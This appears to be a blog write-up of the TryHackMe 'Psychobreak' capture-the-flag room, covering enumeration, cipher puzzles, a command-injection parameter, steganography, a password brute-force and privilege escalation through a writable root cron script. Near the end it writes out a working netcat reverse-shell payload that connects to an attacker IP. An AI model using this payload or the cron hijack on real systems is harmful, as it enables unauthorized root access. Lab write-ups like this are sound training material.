 ```yaml
---
title: "Psychobreak"
date: 2022-09-20T16:00:31+01:00
draft: false
categories:
  - TryHackMe
---
```


{{< post-img src="psychobreak.jpeg" alt="psychobreak" style="width: 200px;" >}}

the Evil within...a videogame classic! I like this theme already!

## Enumeration

```bash
PORT   STATE SERVICE REASON  VERSION
21/tcp open  ftp     syn-ack ProFTPD 1.3.5a

22/tcp open  ssh     syn-ack OpenSSH 7.2p2 Ubuntu 4ubuntu2.10 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey:
|   2048 44:2f:fb:3b:f3:95:c3:c6:df:31:d6:e0:9e:99:92:42 (RSA)
| ssh-rsa AAAAB3NzaC1yc2EAAAADAQABAAABAQDtgGI2Qpv+ora/iClEVeJSyw673ED4ciilMWv/Cw2NtVl9oB8A5rKktZYnJDw5sYZOvXimjb20Rk6a742anZZA87PM3StTZy8ZAMDEwdt8omaz5zy1c+HcJi4jjUIzPAZK10iKJ0JnyZ3eZZgEXALsU1zTi6U8Wn+6pixB9yRzAV8FVd/UThmC8vkiyNbNJUF6tgP+paajOIq2KzcmYrn8zZFL79EjDUUqSx72/wc/VUYyNArVGtVmOuvW1TBQwnpUv3zNQL1sabfiRzmgWB4unfHCVbj8autfHOfHSpMxC5QOuOJRTdhak6MUlHbjSXBF5MU1OP4mNTIoh/+e8k17
|   256 92:24:36:91:7a:db:62:d2:b9:bb:43:eb:58:9b:50:14 (ECDSA)
| ecdsa-sha2-nistp256 AAAAE2VjZHNhLXNoYTItbmlzdHAyNTYAAAAIbmlzdHAyNTYAAABBBCE8pJD7f5qX4X2kInnJf/m5wbTLOFA3I49Hyi2MrHxg3jREHseTbpqk00Xmy7F2+8Z8ljTdJwD9aafUAPgXxes=
|   256 34:04:df:13:54:21:8d:37:7f:f8:0a:65:93:47:75:d0 (ED25519)
|_ssh-ed25519 AAAAC3NzaC1lZDI1NTE5AAAAIPxHqNM/ISBztZhs47D+flKJiTqFqt5kJrFDoeNyO8Zb

80/tcp open  http    syn-ack Apache httpd 2.4.18 ((Ubuntu))
|_http-server-header: Apache/2.4.18 (Ubuntu)
|_http-title: Welcome To Becon Mental Hospital
| http-methods:
|_  Supported Methods: GET HEAD POST OPTIONS
Service Info: OSs: Unix, Linux; CPE: cpe:/o:linux:linux_kernel

```

```bash
.hta                    [Status: 403, Size: 278, Words: 20, Lines: 10]
.htpasswd               [Status: 403, Size: 278, Words: 20, Lines: 10]
.htaccess               [Status: 403, Size: 278, Words: 20, Lines: 10]
css                     [Status: 301, Size: 312, Words: 20, Lines: 10]
index.php               [Status: 200, Size: 838, Words: 93, Lines: 25]
js                      [Status: 301, Size: 311, Words: 20, Lines: 10]
server-status           [Status: 403, Size: 278, Words: 20, Lines: 10]
```

In doubt, check the code

```html
<!-- Sebastian sees a path through the darkness which leads to a room => /sadistRoom -->
```

Grab the key and run!
decode `Tizmg_nv_zxxvhh_gl_gsv_nzk_kovzhv` to a very polite key
its not everyday you decode some `atbash code` (beaufort-variant)
Boy I love how this feels like playing the game
the author is such a cool guy

Ok now Safe heaven is the place you wanna go

in doubt...

```html
<!-- I think I'm having a terrible nightmare. Search through me and find it ... -->
```

We fuzz here with for some hidden directory (dirbuster lists work)

```bash
imgs                    [Status: 301, Size: 324, Words: 20, Lines: 10]
                        [Status: 200, Size: 1299, Words: 88, Lines: 52]
keeper                  [Status: 301, Size: 326, Words: 20, Lines: 10]
```

escape the keeper take the stairs to google reverse search..ASAP
Get the keeper key...and back to the map we can access the abandoned room
what a nice place...all this blood, guts, spider-m'lady...charming

In doubt...gentlemen?

```html

<!-- There is something called "shell" on current page maybe that'll help you to get out of here !!!-->


<!-- To find more about the Spider Lady visit https://theevilwithin.fandom.com/wiki/Laura_(Creature) -->
```


obviously you have command execution with `shell=` parameter
But damn only `ls` command? lol
This was tricky and I thing I got luck trying `ls ..` here XD
you will find a weird directory along `be8bc..whatever` where we already are
so just visit the second dir...you find the text that tell you the nice lady of earlier is called `Laura`
and a `helpme.zip`

```text
From Joseph,

Who ever sees this message "HELP Me". Ruvik locked me up in this cell. Get the key on the table and unlock this cell. I'll tell you what happened when I am out of
this cell.
```

I sense alot of stegano in here

```bash
└──╼ $binwalk -e Table.jpg

DECIMAL       HEXADECIMAL     DESCRIPTION
--------------------------------------------------------------------------------
0             0x0             Zip archive data, at least v2.0 to extract, uncompressed size: 25399, name: Joseph_Oda.jpg
25329         0x62F1          Zip archive data, at least v2.0 to extract, uncompressed size: 26844, name: key.wav
26071         0x65D7          End of Zip archive, footer length: 22
```

Listen to that audio..its morse! you can decode it [here](https://morsecode.world/international/decoder/audio-decoder-adaptive.html)

Then you can free joseph oda
as he is polite, he say `thankyou.txt`
with his ftp creds you get access to a `program` that you definitely trust
At this point we all know what to do...we get the logic but that would be a boring stuff doing one by one
And how do we automate the boring stuff?

```bash
└──╼ $python program.py
000000
000000 => Incorrect

111111

...

kidman
kidman => Correct

Well Done !!!
Decode This => 55 444 3 6 2 66 7777 7 2 7777 7777 9 666 777 3 444 7777 7777 666 7777 8 777 2 66 4 33

letmein
letmein => Incorrect
...
```

decode that! its multi-tap...aka `sms-code`
If you grew up in the 90's you know this

Now we go inside

```bash
kidman@evilwithin:~$ cat user.txt
user_flag_goes_here
```

## privilege escalation

kidman is not a sudoer...so enumeration time start

Right where we are there are hidden files

```bash
kidman@evilwithin:/home/kidman$ ls -al
total 44
drwxr-xr-x 4 kidman kidman 4096 Aug 13  2020 .
drwxr-xr-x 5 root   root   4096 Jul 13  2020 ..
-rw------- 1 kidman kidman    1 Aug 13  2020 .bash_history
-rw-r--r-- 1 kidman kidman  220 Jul 13  2020 .bash_logout
-rw-r--r-- 1 kidman kidman 3771 Aug 13  2020 .bashrc
drwx------ 2 kidman kidman 4096 Jul 13  2020 .cache
drwxrwxr-x 2 kidman kidman 4096 Jul 13  2020 .nano
-rw-r--r-- 1 kidman kidman  655 Jul 13  2020 .profile
-rw-rw-r-- 1 kidman kidman  264 Aug 13  2020 .readThis.txt
-rw-r--r-- 1 root   root     26 Dec 15 18:38 .the_eye.txt
-rw-rw-r-- 1 kidman kidman   33 Jul 13  2020 user.txt

kidman@evilwithin:/home/kidman$ cat .readThis.txt

uC@> z:5>2?i

%96 E9:?8 x 2> 23@FE E@ E6== D@ :D E@A D64C6E] }@ @?6 5@6D?VE <?@H 23@FE E9:D] xEVD E96 #FG:<VD 6J6] }@ @?6 42? 9:56 2H2J 7C@> :E] qFE x 42? E6== J@F @?6 E9:?8 D62C49 7@C E96 DEC:?8 YE9606J60@70CFG:<Y ] *@F 8@E E@ 96=A $632DE:2? 56762E #FG:< ]]]

kidman@evilwithin:/home/kidman$ cat .the_eye.txt
No one can hide from me.
```
Brilliant! more decoding...its `ROT-47`

find the eye now...its a python file somewhere..just use

```bash
kidman@evilwithin:/home/kidman$ find / -name *string_to_look_for* 2>/dev/null
....
```
```bash
kidman@evilwithin:/place$ cat .the_script_bro.py
#!/usr/bin/python3

import subprocess
import random

stuff = ["I am watching you.","No one can hide from me.","Ruvik ...","No one shall hide from me","No one can escape from me"]
sentence = "".join(random.sample(stuff,1))
subprocess.call("echo %s > /home/kidman/.the_eye.txt"%(sentence),shell=True)
```
Running it as kidman will get us nowhere...so I suspect this to be a root `cron` job

```bash
kidman@evilwithin:~$ cat /etc/crontab

SHELL=/bin/sh
PATH=/usr/local/sbin:/usr/local/bin:/sbin:/bin:/usr/sbin:/usr/bin

*/2 * * * * root python3 /place/.the_script_found.py
```
Bingo! 2 minutes of patience!

Ok now add reverse shell for action

```python
import os

os.system("mkfifo /tmp/kirxhbg; nc 10.8.226.203 4444 0</tmp/kirxhbg | /bin/sh >/tmp/kirxhbg 2>&1; rm /tmp/kirxhbg")
```
Now we are supreme

```bash
└──╼ $nc -lnvp 4444
listening on [any] 4444 ...
connect to [10.0.2.15] from (UNKNOWN) [10.0.2.2] 57736
id
uid=0(root) gid=0(root) groups=0(root)
```

First things first

```bash
cat root.txt
get_root_flag_here
```

then the extra

```text
cat readMe.txt


 /\/\/\/\/\/\/\/\/\/\/\/\/\/\/\/\/\/\/\/\/\/\/\/\/\/\/\/\/\/\/\/\/\/\/\/\/\/\/\/\/\/\/\
|  From Sebastian :                                                                     |
|                                                                                       |
|  You have one final task ... Help me to defeat ruvik !!!                              |
|                                                                                       |
 \/\/\/\/\/\/\/\/\/\/\/\/\/\/\/\/\/\/\/\/\/\/\/\/\/\/\/\/\/\/\/\/\/\/\/\/\/\/\/\/\/\/\/

```

yeah ok? no one likes this guy anyway

```bash
deluser ruvik
Removing user `ruvik' ...
Warning: group `ruvik' has no more members.
Done.
```

What a cool room!
